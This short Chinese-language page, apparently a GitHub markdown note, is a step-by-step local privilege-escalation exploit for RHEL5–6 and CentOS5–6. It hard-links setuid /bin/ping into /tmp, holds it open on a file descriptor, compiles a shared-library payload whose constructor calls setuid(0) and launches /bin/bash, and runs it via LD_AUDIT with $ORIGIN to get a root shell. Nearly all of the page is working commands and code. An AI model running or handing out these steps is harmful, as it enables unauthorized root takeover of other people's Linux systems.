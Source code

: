 利用tmp目录权限、suid 权限和C语言使普通帐号提权为ROOT权限，合适用 RHEL5-RHEL6 CENTOS5-CENTOS6 均可以提权

提权方法:

创建目录

```bash
cd /tmp 
mkdir -p /tmp/exploit
```

创建target文件硬链接

```bash
ln /bin/ping /tmp/exploit/target
```

把target文件加载到内存中

```bash
exec 3< /tmp/exploit/target
```

查看target在内存中的情况

```bash
ls -l /proc/$$/fd/3
```

删除目录

```bash
rm -rf /tmp/exploit/
```

输入c代码

```c
cat<< 'EOF' >payload.c
void __attribute__((constructor)) init()
{
  setuid(0);
  system("/bin/bash");
}
EOF
```

编译文件

```bash
gcc -w -fPIC -shared -o /tmp/exploit payload.c
```

提升root权限

```bash
LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
```

![image-20210428002703573](../acess/image-20210428002703573.png) 